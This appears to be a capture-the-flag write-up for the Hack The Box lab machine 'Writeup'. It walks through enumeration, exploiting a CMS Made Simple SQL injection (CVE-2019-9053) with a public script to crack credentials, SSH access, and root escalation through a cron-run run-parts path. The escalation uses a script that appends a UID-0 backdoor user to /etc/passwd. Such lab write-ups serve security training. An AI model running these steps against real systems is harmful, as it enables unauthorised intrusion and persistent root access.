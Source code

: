 ```yaml
---
clayout: ctf
title: Writeup
date: 2025-03-27
image: /ctf/hack-the-box/machines/writeup/info-card.png
type: Hack The Box

ctf:
    - name: Writeup
      link: https://app.hackthebox.com/machines/192
      thumbnail: /ctf/hack-the-box/machines/writeup/info-card.png
      pwned:
        - link: https://www.hackthebox.com/achievement/machine/585215/192
          thumbnail: /ctf/hack-the-box/machines/writeup/pwned.png
---
```


## Enumeration

### Nmap Scan

We begin by running a comprehensive Nmap scan to enumerate open ports and detect running services:

```bash
nmap -sC -sV -v -p- -oN writeup.nmap 10.10.10.138
```

**Scan Results:**

```bash
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  tcpwrapped
```

Port 22 and 80 are open but both return `tcpwrapped`, indicating access control mechanisms or limitations on banner grabbing.

### Web Enumeration

Navigating to `http://10.10.10.138/`, we are presented with a basic webpage:

![Homepage](/ctf/hack-the-box/machines/writeup/home.png)

Checking `robots.txt`, we discover a disallowed path:

![robots.txt](/ctf/hack-the-box/machines/writeup/robots.png)

The file discloses the `/writeup` directory, which appears to host a web application:

![Writeup Page](/ctf/hack-the-box/machines/writeup/writeup.png)

We use `whatweb` to fingerprint the application:

```bash
whatweb http://10.10.10.138/writeup/
```

![WhatWeb Output](/ctf/hack-the-box/machines/writeup/whatweb.png)

The application is identified as **CMS Made Simple**—an open-source PHP CMS. The footer indicates the version may date back to 2019.

Based on this, we research known vulnerabilities and discover [CVE-2019-9053](https://nvd.nist.gov/vuln/detail/CVE-2019-9053), which is an unauthenticated SQL injection vulnerability affecting CMS Made Simple version 2.2.9.

### Exploitation

We exploit the SQL injection using the publicly available script [Exploit-DB 46635](https://www.exploit-db.com/exploits/46635):

```bash
python3 46635.py -u "http://10.10.10.138/writeup/" -w /usr/share/wordlists/rockyou.txt -c
```

**Script Output:**

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password hash found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

With the credentials `jkr : raykayjay9`, we are able to access the machine via SSH:

```bash
ssh jkr@10.10.10.138
```

After logging in, we retrieve the user flag:

```bash
jkr@writeup:~$ cat user.txt
[USER_FLAG]
```

## Privilege Escalation

We check the group memberships for the `jkr` user:

![User Groups](/ctf/hack-the-box/machines/writeup/groups.png)

The user is part of the `staff` group, which may have access to sensitive directories or cron-related scripts. We refer to [this blog post](https://binaryregion.wordpress.com/2021/09/22/privilege-escalation-linux-staff-group/) explaining how this group can be leveraged for privilege escalation.

To monitor background activity, we run `pspy32`, a tool for process discovery:

![pspy Output](/ctf/hack-the-box/machines/writeup/pspy32.png)

We observe that a `run-parts` script is executed as **root** on a recurring schedule. This script executes all scripts in a given directory—offering an opportunity to inject malicious code.

### Crafting the Exploit

We replace or add a script in the expected `run-parts` path, such as `/usr/local/bin/run-parts`, to append a new root user into `/etc/passwd`:

```bash
#!/bin/bash
echo 'deejay:$1$deejay$4bbVUrgoKNqATEsKbF2d.0:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Once triggered, the new user `deejay` with UID 0 is added.

We confirm the injection:

![Modified /etc/passwd](/ctf/hack-the-box/machines/writeup/passwd.png)

Now, we switch to the new root user:

```bash
su deejay
```

Access is granted, and we retrieve the root flag:

```bash
cat /root/root.txt
```

![Root Access](/ctf/hack-the-box/machines/writeup/root.png)
